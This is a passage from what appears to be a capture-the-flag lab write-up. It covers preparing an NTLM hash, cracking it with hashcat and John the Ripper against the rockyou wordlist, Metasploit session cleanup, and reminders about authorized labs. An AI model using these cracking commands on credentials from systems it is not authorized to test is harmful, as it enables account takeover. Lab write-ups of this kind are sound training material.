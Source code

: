 
## 9) Preparing and cracking the NTLM hash
**Why:** obtain plaintext password offline using hash cracking tools. NTLM is unsalted so identical passwords map to identical hashes.

**Prepare hash file (NTLM-only, one per line):**
```bash
echo "8ce9a3ebd1647fcc5e04025019f4b875" > hash.txt
```

**Hashcat (GPU) example:**
```bash
# NTLM = -m 1000, dictionary attack with rules
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --show
```

**John the Ripper (CPU) example:**
```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
john --show hash.txt
```

---

## 10) Session management, cleanup, and documentation
**Why:** be professional: document steps and revert any snapshot; remove artifacts if appropriate for the lab rules.

**Commands to log and cleanup:**
```text
# capture msfconsole output
spool /root/tryhackme/msf_output.txt
# after actions
spool off

# kill sessions when done
sessions -k 1
exit
```

---

## 11) Ethical & lab-safety reminders
- Only run these commands in authorized labs (TryHackMe, HackTheBox, or VMs you own).  
- Snapshot the target VM before exploitation and revert after finishing.  
- Log everything (timestamps, commands, outputs) for a lab report.  
- Avoid persistence or destructive actions unless explicitly part of the lab instructions.

---

## References (where to learn more)
- Metasploit documentation (`msfconsole --help`)  
- TryHackMe / HackTheBox labs and write-ups  
- Hashcat and John the Ripper manuals for cracking details

---
*End of write-up.*
